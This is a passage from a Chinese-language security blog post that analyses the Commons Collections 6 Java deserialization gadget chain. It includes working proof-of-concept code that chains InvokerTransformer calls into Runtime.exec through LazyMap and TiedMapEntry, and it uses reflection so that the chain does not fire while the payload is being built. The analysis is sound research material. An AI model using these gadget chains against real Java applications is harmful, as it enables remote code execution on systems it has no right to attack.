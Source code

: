 通过调用 `LazyMap.decorate` 方法，将恶意的 `ChainedTransformer` 赋值给 `LazyMap#factory`，当调用 `LazyMap#get(Object key)` 方法，则会触发恶意代码的执行。（与 CommonsCollections 1、CommonsCollections 5 的 sink 点相同）

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```java<br>public static void main(String[] args) {<br>    Transformer[] transformers = new Transformer[] {<br>        new ConstantTransformer(Runtime.class),<br>        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>        new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>    };<br>    Transformer transformerChain = new ChainedTransformer(transformers);<br>    Map innerMap = new HashMap();<br>    Map outerMap = LazyMap.decorate(innerMap, transformerChain);<br>  	outerMap.get("poc");<br>}<br>``` |

CommonsCollections 6 gadget 作者找到了 `TiedMapEntry` 类，其中在 `TiedMapEntry#getValue()` 方法中调用了 `this.map.get(this.key)` 方法。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>public Object getValue() {<br>    return this.map.get(this.key);<br>}<br>``` |

调用 `TiedMapEntry(Map map, Object key)` 构造方法，可以为 `TiedMapEntry#map` 赋值

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291141935.png-water_print](assets/1699411715-7e2870adb6e8174583d9a1540e658f3f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291141935.png-water_print")

在 `TiedMapEntry` 中的 `equals(Object obj)`、`hashCode()`、`toString()` 方法中都调用了 `TiedMapEntry#getValue()` 方法。这里作者选择调用 `TiedMapEntry#hashCode()` 方法。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291143784.png-water_print](assets/1699411715-105860057a8cca1deadd3c357d4ce0e3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291143784.png-water_print")

接下来的思路就和 DNSURL 链类似，通过 HashMap 入口进行反序列化。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br>te.hashCode();<br>``` |

但是，在构造 HashMap 时，调用 put 方法，执行 hashcode 方法，会直接执行后续的命令执行操作，情况和 DNSURL 链相似，因此，需要通过反射来进行一些设置。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>Map innerMap = new HashMap();<br>Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br><br>HashMap<Object, Object> ht =  new HashMap<>();<br>ht.put(te, null);<br>// ht put 后，调用 TiedMapEntry#hashCode 中 getValue()<br>// 调用 lazyMap#get 方法<br>// 判断 innerMap 中是否含有 "Geekby" 这个 key<br>// 没有，进入 if 逻辑，调用 transform，向 innerMap 中添加对应的 Key:Value<br>// 然后再删除这个键值对，便于后续反序列化再次进入 if 逻辑。<br>innerMap.remove("Geekby");<br>// 此外将 LazyMap#factory 属性还原为 transformerChain （防止构造时就执行）<br>Class c = LazyMap.class;<br>Field factoryField = c.getDeclaredField("factory");<br>factoryField.setAccessible(true);<br>factoryField.set(lazyMap, transformerChain);<br>``` |

## [](#4-commonscollections-24-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 2&&4 Gadget 分析
